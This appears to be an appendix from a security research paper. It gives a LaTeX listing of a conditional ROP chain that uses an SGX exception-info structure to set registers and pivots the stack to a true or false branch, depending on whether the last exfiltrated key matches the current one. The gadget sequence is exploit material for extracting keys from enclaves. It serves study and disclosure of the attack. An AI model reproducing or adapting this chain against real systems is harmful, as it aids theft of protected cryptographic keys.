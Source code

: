 \chapter{Conditional Chain}
\label{app:condition-gadget}
Conditional ROP-chain, the chain is triggered by using 
\texttt{sgx\_exception\_info\_t} structure that configures the initial	
registers (see Appendix~\ref{ssec:my-rop-chain}).
The \texttt{SP} register is perturbed if the value of 
\texttt{\&lastKey} differs from the value of \texttt{\&key} in order to 
pivot a true or a false ROP-chain, respectively.
	\begin{lstlisting}[style=CStyle,escapechar=@]	
	/// we set the following registers through
	/// a sgx_exception_info_t structure:
	/// rdi = &lastKey; last key exfiltrated
	/// rax = &key; current key loaded
	/// rdx = #offset; to pivot to the false ROP-chain
	/// rcx = &true-chain; address of the true ROP-chain
	mov eax, dword ptr [rax] ; ret
	mov rdi, qword ptr [rdi + 0x68] ; ret
	cmp eax, edi ; sete al ; movzx eax, al ; ret
	neg eax ; ret
	and eax, edx ; ret
	add rax, rcx ; ret
	xchg rax, rsp ; ret
	// 0x80 nops for padding
	// beginning of true ROP-chain
	pop rdi ; ret
	// context to pivot to the ROP-chain that implements the true branch
	&context_true
	// address of continue_execution function
	&continue_execution
	// beginning of false ROP-chain
	pop rdi ; ret 
	// context to pivot to the ROP-chain that implements the false branch
	&context_false
	// address of continue_execution function
	&continue_execution\end{lstlisting}

